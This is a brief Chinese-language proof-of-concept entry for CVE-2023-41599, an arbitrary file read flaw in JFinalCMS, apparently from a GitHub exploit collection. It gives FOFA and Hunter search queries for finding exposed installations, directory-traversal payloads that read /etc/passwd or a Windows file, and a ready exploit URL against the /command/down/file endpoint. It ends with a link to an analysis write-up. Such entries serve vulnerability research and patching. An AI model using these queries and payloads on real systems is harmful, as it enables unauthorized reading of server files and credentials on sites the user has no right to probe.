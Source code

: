 ## JFinalCMS 任意文件读取漏洞(CVE-2023-41599)


## 特征
```fofa:

body="content=\"JreCms"

hunter:

web.body="content=\"JreCms"
```
## POC
```
Windows: /../../../../../../../../../test.txt
Linux:	/../../../../../../../../../etc/passwd

/command/down/file?filekey=/../../../../../../../../../etc/passwd
```


## 漏洞分析
http://www.so1lupus.ltd/2023/08/28/Directory-traversal-in-JFinalCMS/
